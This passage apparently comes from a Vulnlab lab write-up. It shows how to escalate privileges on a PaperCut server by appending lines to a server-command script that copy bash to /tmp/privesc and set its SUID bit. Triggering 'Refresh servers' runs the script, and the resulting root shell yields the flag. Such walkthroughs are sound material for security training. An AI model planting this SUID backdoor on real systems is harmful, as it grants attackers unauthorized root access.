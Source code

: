 ```
        -Dlog4j.configurationFile=file:${SERVER_HOME}/lib/log4j2-command.properties \
        -Xverify:none \
        biz.papercut.pcng.server.ServerCommand \
        "$@"

# Add these lines to create SUID binary
cp /bin/bash /tmp/privesc
chmod u+s /tmp/privesc
```

And click `Refresh servers`, which will copy the `bash` binary and set SUID bit

![](7.png)

Now execute it and get the flag

![](8.png)

[https://api.vulnlab.com/api/v1/share?id=ee5266ff-6808-40f6-a0cd-fd1bf08507ab](https://api.vulnlab.com/api/v1/share?id=ee5266ff-6808-40f6-a0cd-fd1bf08507ab)